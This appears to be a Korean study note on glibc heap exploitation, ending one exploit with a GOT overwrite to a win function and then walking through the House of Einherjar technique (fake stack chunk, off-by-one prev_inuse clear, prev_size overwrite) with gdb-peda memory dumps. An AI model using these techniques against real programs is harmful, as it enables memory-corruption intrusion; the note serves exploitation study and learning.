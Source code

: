 exit got에 win 함수를 넣어주고나면 끝!

```c
$ id
uid=1000(bskim)
```



# House Of Einherjar

이름부터 맘에들지 않는다.

fake chunk와 off-by-one을 통한 prev_inuse flag overwrite 및 prev_size overwrite 를 이용해 fake free chunk를 top chunk에 넣어버리기!! 하는 공격..(병합을 이용한다)

how2heap의 예제코드를 사용하겠당

```c
gdb-peda$ par
addr                prev                size                 status              fd                bk
0x603000            0x0                 0x40                 Used                None              None

0x7fffffffe400:	0x0000000000000100	0x0000000000000100
0x7fffffffe410:	0x00007fffffffe400	0x00007fffffffe400
0x7fffffffe420:	0x00007fffffffe400	0x00007fffffffe400
```

malloc 하나 할당하고 stack에 fake chunk를 만들어준다. fd 와 bk를 설정해준 건 unlink의 조건을 맞추기 위함이다.

fake chunk의 prev_inuse flag는 설정 해제 시킨 상태

```c
gdb-peda$ par
addr                prev                size                 status              fd                bk
0x603000            0x0                 0x40                 Used                None              None
0x603040            0x0                 0x100                Used                None              None
```

f8만큼 하나 더 할당

```c
gdb-peda$ x/32gx 0x603040
0x603040:	0x0000000000000000	0x0000000000000100
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
```

그리고 off-by-one같은 취약점을 이용해 2번 째 chunk의 prev_inuse flag 설정을 해제 함

```c
gdb-peda$ x/32gx 0x603040
0x603040:	0xffff800000604c40	0x0000000000000100
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
```
